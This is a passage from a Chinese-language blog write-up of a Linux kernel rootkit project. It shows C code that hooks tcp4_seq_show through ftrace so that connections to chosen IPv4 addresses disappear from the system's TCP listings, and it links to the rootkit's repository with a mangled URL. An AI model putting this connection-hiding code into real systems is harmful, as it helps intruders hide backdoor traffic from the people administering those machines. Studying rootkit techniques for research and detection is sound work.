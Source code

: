 `inet_sock::inet_daddr` 实际上是一个四字节的 IPV4 地址，我们只需要直接对比其与我们想要隐藏的 IP 地址是否相同即可，这里我们给出一个简单的 ftrace 的例子：

```
static int nornir_exec_orig_tcp4_seq_show(struct seq_file *seq, void *v)
{
    struct inet_sock *inet;
    struct sock *sk;
    struct in_addr addr;
 
    if (unlikely(v == SEQ_START_TOKEN)) {
        return 1;
    }
 
    sk = v;
    inet = inet_sk(sk);
    addr.s_addr = inet->inet_daddr;
 
    if (unlikely(nornir_get_hidden_conn4_info(addr))) {
        return 0;
    }
 
    return 1;
}
 
static int nornir_tcp4_seq_show_placeholder(void)
{
    return 1;
}
 
static void
nornir_evil_tcp4_seq_show_ftrace(unsigned long ip, unsigned long parent_ip,
                            struct ftrace_ops *ops, struct ftrace_regs *fregs)
{
#ifdef CONFIG_X86_64
    if (unlikely(!nornir_exec_orig_tcp4_seq_show(
        (void*) fregs->regs.di, (void*) fregs->regs.si
    ))) {
        fregs->regs.ip = (size_t) nornir_tcp4_seq_show_placeholder;
    }
#else
    #error "We do not support ftrace hook under current architecture yet"
#endif
}
```

0xFE. What's more...
====================

项目代码目前开源于 [https://github.com/arttnba3/Nornir-Rootkit](elink@459K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6Y4K9i4c8Z5N6h3u0Q4x3X3g2U0L8$3#2Q4x3V1k6S2M7Y4c8@1L8X3u0S2x3#2)9J5c8V1&6G2M7X3&6A6M7W2)9J5k6q4u0G2L8%4c8C8K9i4b7`.)，如果觉得写的还行的话还请多来点 star ？ ：）

0xFF.REFERENCE
==============
